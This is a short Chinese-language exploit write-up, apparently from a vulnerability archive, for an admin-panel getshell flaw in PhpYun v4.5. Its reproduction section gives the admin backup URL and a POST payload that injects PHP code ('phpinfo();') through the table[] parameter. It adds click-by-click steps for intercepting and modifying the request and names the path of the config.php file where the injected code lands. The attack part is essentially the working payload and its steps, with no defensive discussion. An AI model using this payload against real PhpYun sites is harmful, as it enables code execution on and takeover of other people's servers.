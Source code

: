 ```yaml
---
title: "Phpyun v4.5 后台getshell"
id: zhfly3092
---
```


# Phpyun v4.5 后台getshell

## 一、漏洞简介

## 二、漏洞影响

Phpyun v4.5

## 三、复现过程

### payload：

```
Url： http://www.0-sec.org/admin/index.php?m=database&c=backup `Post：

pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111` 
```

漏洞复现过程： 首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![image](../img/74651dde3ca18f3fada476df3562c600.png)

抓包，修改table[] 参数-》发送

![image](../img/e56cb1d9c59997cadc78b8e4d7ed31c5.png)

![image](../img/c3bd17c6e1f10a2572d57ff9c10c5206.png)

产生的文件就在uploads/data/plus/bdata/phpyun_20200312153927/config.php
Url：访问（这里搭建的时候环境，我默认指向了uploads）

![image](../img/ee54eb599dcd2d54ed591625829f84a6.png)